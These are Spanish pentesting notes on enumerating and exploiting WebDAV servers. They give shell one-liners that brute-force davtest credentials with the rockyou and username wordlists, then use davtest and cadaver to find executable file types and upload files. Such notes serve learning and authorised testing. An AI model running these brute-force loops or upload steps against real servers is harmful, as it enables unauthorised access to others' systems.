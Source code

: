 #WebDAV #OWASP #Enumeracion #Explotacion 

#### Definición
>**WebDAV** (**Web Distributed Authoring and Versioning**) es una extensión del protocolo HTTP que permite a los usuarios **acceder** y **manipular** **archivos** en un servidor web a través de una conexión segura.

## Enumeración

Usaremos [[WHATWEB]] para identificar que tipo de tecnologías usa la pagina web es y así poder ver si es un WebDAV:
`whatweb <URL_Victima>`

Podemos usar una herramienta llamada [[DAVTEST]] nos enumera todos los tipos de archivos que se pueden subir a la web y cuales son ejecutables/interpretables, pero para ellos debemos de saber las credenciales
Si sabemos el nombre del usuario:
```shell
cat /usr/share/wordlists/rockyou.txt | while read password; do response=$(davtest -url <URL_Victima> -auth admin:$password 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] La contraseña es: $password"; break; fi; done
```

SI sabemos la contraseña: 
```shell
cat /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt  | while read username; do response=$(davtest -url <URL_Victima> -auth $username:Password123 2>&1 | grep -i succeed); if [ $response ]; then echo "[+] El usuario es: $username"; break; fi; done
```


## Explotación

Usaremos o la herramienta [[DAVTEST]] con el siguiente comando para ver que tipos de ficheros son ejecutables en la web:
`davtest -url http://localhost/ -auth admin:richard`

O también podemos usar [[CADAVER]]:
`cadaver http://127.0.0.1`

Nos pedirá usuario y contraseña y nos podremos conectar y poder hacer subida y descarga de archivos de la web

